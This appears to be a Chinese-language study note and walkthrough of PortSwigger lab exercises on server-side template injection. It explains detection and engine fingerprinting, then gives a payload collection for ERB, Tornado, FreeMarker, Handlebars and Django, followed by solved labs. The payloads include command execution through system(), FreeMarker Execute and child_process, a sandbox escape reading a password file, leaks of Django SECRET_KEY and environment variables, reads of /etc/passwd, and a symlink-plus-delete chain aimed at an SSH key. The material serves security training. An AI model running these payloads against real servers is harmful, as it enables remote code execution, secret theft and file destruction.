



[TOC]

#### 0. Detect

##### 0.1 Plaintext context

```
render('Hello ' + username)

http://vulnerable-website.com/?username=${7*7}
```

如果返回`Hello 49`，说明大概率有SSTI。

> 成功运行数学表达式的方法会根据不同的模板引擎而有所不同

##### 0.2 Code context

漏洞代码：

```
greeting = getQueryParameter('greeting')
engine.render("Hello {{"+greeting+"}}", data)
```

利用：

1. 先确定有没有XSS。

    `http://vulnerable-website.com/?greeting=data.username<tag>`

    如果报错或者只输出`Hello`，或者`<tag>`被编码了，则说明没有XSS。

2. 用模板语句突破。

    `http://vulnerable-website.com/?greeting=data.username}}<tag>`

    * 输出空，或者错误
        * 模板注入的语句（语法）错误
        * 没有SSTI

    * 输出`Hello Carlos<tag>`
        * 则说明有SSTI。

##### 0.3 Identify the template engine

> * 错误信息会提示用的什么引擎，如无效语句：`<%=foobar%>`，这里如果是ERB的话，会提示错误。
>
> * 使用来自不同模板引擎的语法注入任意数学运算
>
>     注意不同的成功结果，来自不同的引擎。
>
>     如：`{{7*'7'}}`在`Twig`里的结果是`49`，而在`Jinja2`里是`7777777`。
>
>     

##### 0.4 引擎利用方式

##### [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits)

###### ERB(Ruby)

* 命令执行

    ```
    <%= system("ls -la") %>
    ```

* 目录+文件读取

    ```
    <%= Dir.entries('/') %>
    <%= File.open('/example/arbitrary-file').read %>
    ```

* 

###### Tornado

* 通过`handler.application`即可访问整个Tornado。

    简单而言通过`{{handler.application.settings}}`或者`{{handler.settings}}`就可获得`settings`中的**cookie_secret**。

* 在Tornado里面，使用python语句，是``

    如：`7*7}}{{os.system("rm /home/carlos/morale.txt")}}`(可能需要url编码)

###### FreeMarker

* **api 内建函数的利用**

    ```
    eg1：
        <#assign classLoader=object?api.class.getClassLoader()>
        ${classLoader.loadClass("our.desired.class")}
    
    eg2：
        <#assign uri=object?api.class.getResource("/").toURI()>
        <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
        <#assign is=input?api.getInputStream()>
        FILE:[<#list 0..999999999 as _>
        <#assign byte=is.read()>
        <#if byte == -1>
        <#break>
        </#if>
        ${byte}, </#list>]
    ```

* **new 内建函数的利用**

    ```
    <#assign test="freemarker.template.utility.Execute"?new()>
    ${test("find / -name morale.txt")}
    
    <#assign value="freemarker.template.utility.ObjectConstructor"new()>
    ${value("java.lang.ProcessBuilder","calc.exe").start()}
    
    <#assign value="freemarker.template.utility.JythonRuntime"?new()>
    <@value>import os;os.system("calc.exe")</@value>//@value为自定义标签
    ```

* 穿透沙盒

    ```
    ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
    ```

###### handlebars

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

```handlebars
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{arr.pop}}
        {{arr.push obj.constructor.name.constructor.bind}}
        {{arr.pop}}
        {{arr.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{arr.pop}}
            {{#blockHelperMissing obj.constructor.name.constructor.bind}}
              {{#with (arr.constructor (obj.constructor.name.constructor.bind.apply obj.constructor.name.constructor arr))}}
                {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                  {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                     {{#with (obj.constructor.constructor "test")}}
                        {{this}}
                     {{/with}}
                  {{/with}}
                {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
  {{/with}}
{{/with}}
```

###### django

```django

{{settings.SECRET_KEY}}
```


#### 1. Basic server-side template injection

输入：`<%=foobar%>`，返回了错误提示：

```
Internal Server Error (erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError) from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval' from /usr/lib/ruby/2.5.0/erb.rb:876:in `result' from -e:4:in `<main>'
```

说明是ERB引擎。

```
?message=<%=7*7%>
```

返回`49`，说明存在SSTI漏洞。

payload:

```
?message=<%= system("rm /home/carlos/morale.txt") %>
---
?message=%3fmessage%3d<%25%3d+system("rm+/home/carlos/morale.txt")+%25>
```

#### 2. Basic server-side template injection (code context)



我在这里输入`7*7`，而这里显示在我的名字这里反应的是`49`，猜测这里有SSTI。

我再次进行模板语句突破：



发现这里确实有SSTI。

而我将这里改成毫无意义的`aaaa`的时候，在评论页面返回了报错页面。

```
Internal Server Error Traceback (most recent call last): File "<string>", line 16, in <module> File "/usr/lib/python2.7/dist-packages/tornado/template.py", line 348, in generate return execute() File "<string>.generated.py", line 4, in _tt_execute NameError: global name 'aaaa' is not defined
```

我们发现这里是`tornado`引擎，去找这个引擎的`payload`。

这里在前面其实发现了可以用双大括号去穿透模板语句。

试着直接执行system命令。

`7*7}}{{system("rm+/home/carlos/morale.txt")}}`

然后返回system未定义。

尝试导入`os`

`7*7}}{%25import+os%25}{{os.system("rm+/home/carlos/morale.txt")}}`

#### 3. Server-side template injection using documentation

在修改模板页面找到三个模板点，并且是可以修改的。



然后输入一个错误的语句，返回了报错信息，可以看到引擎是`freemarker`。

payload:

```
<#assign test="freemarker.template.utility.Execute"?new()>
${test("rm /home/carlos/morale.txt")}
```

#### 4. Server-side template injection in an unknown language with a documented exploit

在网上搜到了这个payload。[漏洞挖掘：Handlebars库 模板注入导致RCE 0day - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4695#toc-2)

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

但是试了好多东西，都没有找到如何调用系统方法。

看了下官方的payload：

```
require("child_process").exec("rm /home/carlos/morale.txt")
```

这里是创建一个子进程，然后执行命令。

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

这里需要url编码。

#### 5. Server-side template injection with information disclosure via user-supplied objects

输入`{{7*7}}`，报错，说是`django`引擎。

```django

{{settings.SECRET_KEY}}
```

#### 6. Server-side template injection in a sandboxed environment

报错说是：`freemarker`.

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

得到了：

```
51 111 103 55 109 49 97 121 52 111 111 108 119 118 97 113 110 113 97 55
```

然后翻译过来是：

```
3og7m1ay4oolwvaqnqa7
```

#### 7. Server-side template injection with a custom exploit

去疯狂试错：`1*1}}{%25+import+os%25}{{os.system("ls")}}`

我一开始以为是python环境，然后报错，说是php的Twig。

上传了一个不合规的图片，返回了错误信息：

```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/octet-stream in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/aa.ss', 'application/oct...')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

发现这个setAvatar可以加载头像，第一个参数是路径，第二个参数是MIME类型。

于是用`blog-post-author-display=user.setAvatar('/etc/passwd','image/jpeg')`，然后将图片下载下来，看到了文件。

现在去下载`/home/carlos/User.php`文件。

```php
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}

?>
```

发现有`gdprDelete()`函数，可以拿来删除文件。但是得想办法改变`avatarLink`。

这里发现`setAvatar()`里面有`symlink()`函数可以改变`avatarLink`。

> ```php
> symlink ( string $target , string $link ) : bool
> ```
>
> **symlink()** 对于已有的 `target` 建立一个名为 `link` 的符号连接。

所以：

* `blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')`

    先用这个去改变`avatarLink`，指向要删除的文件。

* `blog-post-author-display=user.gdprDelete()`

    执行删除。（执行删除之前一定要看看，上面那个命令执行成功没有，小心执行了删除却没有删掉文件）
